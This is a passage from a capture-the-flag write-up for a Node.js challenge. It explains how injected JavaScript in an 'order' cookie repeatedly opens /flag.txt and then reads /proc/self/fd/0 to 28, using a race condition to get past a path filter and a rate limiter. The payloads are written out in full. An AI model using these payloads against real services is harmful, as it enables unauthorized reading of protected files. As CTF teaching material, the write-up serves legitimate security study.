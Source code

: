The path we give to the `readFile` function is read from anyway, **even if the
path contains `flag`**. That means, that even if we can't read the contents of
`/flag.txt` directly, we can still invoke the creation of a file descriptor by
running `readFile('/flag.txt')`.  
We won't be able to get the output, but it would create a file descriptor
pointing to `/flag.txt`, in the `nodejs` process.  

### The final solution ;)  
So the plan is:  
1. Start a thread that constently tries to read the flag. It won't succeed, but it will be creating those precious file descriptors in `/proc/self/fd`.  
2. Imediatly start another thread, that tries to read all the files in `/proc/self/fd`.  
3. Continue doing step 1 and 2 until it works.

The `order` cookie in the file descriptor creation thread:  
```javascript  
a = _=> { return readFile`/flag.txt` + readFile`/flag.txt` +
readFile`/flag.txt` + readFile`/flag.txt` + readFile`/flag.txt` +
readFile`/flag.txt` + a`` }, a``  
````  
It creates a function named `a`, which uses recursion to keep trying to read
`/flag.txt`

The `order` cookie in the file descriptor reader thread:  
```javascript  
readFile`/proc/self/fd/0`, readFile`/proc/self/fd/1`,
readFile`/proc/self/fd/2`, readFile`/proc/self/fd/3`,
readFile`/proc/self/fd/4`, readFile`/proc/self/fd/5`,
readFile`/proc/self/fd/6`, readFile`/proc/self/fd/7`,
readFile`/proc/self/fd/8`, readFile`/proc/self/fd/9`,
readFile`/proc/self/fd/10`, readFile`/proc/self/fd/11`,
readFile`/proc/self/fd/12`, readFile`/proc/self/fd/13`,
readFile`/proc/self/fd/14`, readFile`/proc/self/fd/15`,
readFile`/proc/self/fd/16`, readFile`/proc/self/fd/17`,
readFile`/proc/self/fd/18`, readFile`/proc/self/fd/19`,
readFile`/proc/self/fd/20`, readFile`/proc/self/fd/21`,
readFile`/proc/self/fd/22`, readFile`/proc/self/fd/23`,
readFile`/proc/self/fd/24`, readFile`/proc/self/fd/25`,
readFile`/proc/self/fd/26`, readFile`/proc/self/fd/27`,
readFile`/proc/self/fd/28`  
```  
And yes, there is probably a better way to implement the file descriptor
reader using loops, but it works.

Because the threads start immediatly, there's sometimes a race condition in
the rate limmiter validation, that allows us to pass it and run two instances
of `checkout` at the same time.  
Either that, or something about my implementation sometimes causes the file
descriptor to never close, which works as well.  

Original writeup
(https://github.com/omerAF/CTFs/tree/master/asisctf_finals_2021/jsss).